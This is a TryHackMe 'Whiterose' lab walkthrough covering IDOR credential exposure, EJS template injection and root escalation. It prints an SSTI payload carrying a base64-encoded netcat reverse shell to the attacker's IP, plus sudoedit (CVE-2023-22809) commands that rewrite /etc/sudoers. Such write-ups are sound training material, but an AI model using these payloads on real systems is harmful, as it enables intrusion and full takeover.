TryHackMe | Whiterose

## Recon: nmap scan



## Change config file /etc/hosts



## The webpage



## Brute forcing directories and other things with ffuf and feroxbuster





## Change config file /etc/hosts



## Web access with olivas credentials we where given by the room (Olivia Cortez:olivi8)
But we can take a look at the news history. This is set to ?c=5 during the visit. The parameter c can be checked for IDOR. (http://admin.cyprusbank.thm/messages/?c=5)

With the parameter value 0 we find the credentials of an admin user Gayle Bev. (http://admin.cyprusbank.thm/messages/?c=0)







## Web Access Gayle Bev

We use the found credentials to log in as Gayle Bev and are successful. (Gayle Bev:p~]P@5!6;rs558:q)



We are now able to read the telephone numbers of Tyrell Wellick.



## Shell as web
We can set the customer's passwords here. What is noticeable is that the passwords are reflected. This immediately draws attention to XSS or SSTI.

We can know this website is vulnarable to SSTI because of this error

We can find SSTI payloads here: 
  
     https://github.com/mde/ejs/issues/720
     https://eslam.io/posts/ejs-server-side-template-injection-rce/

Next, we set up a listener and us the following payload to spawn a reverse shell.

## Generate a reverse shell



Encode it in base64 and add it to the payload belwo


    
    name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash"');//



We should reveice back a connection like this



We receive a connection back and are the user web. In the home directory of web we find the first flag. After we have received our reverse shell, we then upgrade it. 



## Upgrading our shell: Follow the steps in the link bellow:

    https://0xffsec.com/handbook/shells/full-tty/





We can go to web home directory and find the second flag

## Privilege escelation

Whe can see what commands we can use root with

 

You can use sudoedit as root without a password to modify the file /etc/nginx/sites-available/admin.cyprusbank.thm.
After some reasearch we find (https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)
CVE-2023-22809 for sudoedit

After upgrading our shell 

we use this exploit to see the hash of root

To escalate our privileges to root, we attempt to edit the /etc/sudoers file.
    
    export EDITOR="vi -- /etc/sudoers"
    sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

The first part shows you how to get the hash.

 

 

The second part, here we target the line with the command allowing us to execute that specifies the sudoedit command:
    
    web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

and replace it with the following:

    web ALL=(root) NOPASSWD: ALL  



## We are root!

Now we are able to execute any command as root without providing a password and use that to switch to the root user. 



To get our last flag


